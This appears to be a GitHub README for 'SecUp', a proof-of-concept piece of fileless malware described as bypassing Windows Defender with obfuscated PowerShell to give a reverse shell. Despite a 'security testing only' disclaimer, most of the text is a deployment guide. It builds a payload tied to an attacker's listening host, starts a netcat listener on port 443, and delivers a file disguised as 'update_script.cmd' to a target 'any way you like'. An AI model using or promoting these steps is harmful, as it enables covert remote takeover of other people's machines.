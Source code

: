 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup is simple.<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build `SecUp.go`<br>
`go build SecUp.go`
3. From terminal, run: ./SecUp <LHOST><br>
`dlowrie@kali:~/Tools/update_script$ ./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Back at the SecUp terminal<br>
`Press ENTER to continue...`
6. Upload and execute `update_script.cmd` to target any way you like<br>

7. Shellz
<P></P>
If you don't want to build SecUp, then that's OK.<br>
I've put a compiled binary for Linux users in the repo.<br>
In that case you can skip step 2

<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4


